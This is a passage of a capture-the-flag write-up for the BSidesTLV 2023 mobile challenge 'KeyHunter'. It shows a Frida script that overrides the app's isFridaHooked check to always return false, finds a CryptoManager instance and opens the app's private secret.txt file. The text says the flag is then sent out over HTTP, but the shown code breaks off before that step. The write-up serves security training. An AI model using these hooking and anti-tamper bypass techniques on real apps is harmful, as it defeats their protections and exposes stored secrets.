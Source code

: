 ![‏‏url.JPG](images/url.JPG)

After uploading the script, we don't see the output. To leak the flag, we can send it over HTTP using the following additional code [./solve.js](./solve.js):
```JavaScript
/* 
   BSidesTLV CTF 2023
   Mobile - KeyHunter solve by evyatar9

   $ frida -U -p <PID> -l solve.js
*/
Java.perform(function() {
   
   var AppIntegrityChecker = Java.use("com.plcoding.androidcrypto.AppIntegrityChecker$Companion");
   AppIntegrityChecker.isFridaHooked.overload().implementation = function() {
		console.log("Custom implementation of isFridaHooked method - return false");
		return false;
   };
   
  Java.enumerateLoadedClasses({
    onMatch: function(className) {
      if (className === "com.plcoding.androidcrypto.CryptoManager") {
        Java.choose(className, {
          onMatch: function(instance) {
			
			console.log("Found an instance of CryptoManager");
			console.log("Creating FileInputStream with /data/data/com.plcoding.androidcrypto/files/secret.txt");
			var File = Java.use("java.io.File");
			var FileInputStream = Java.use("java.io.FileInputStream");

			var filePath = "/data/data/com.plcoding.androidcrypto/files/secret.txt";
			var file = Java.cast(File.$new(filePath), File);
```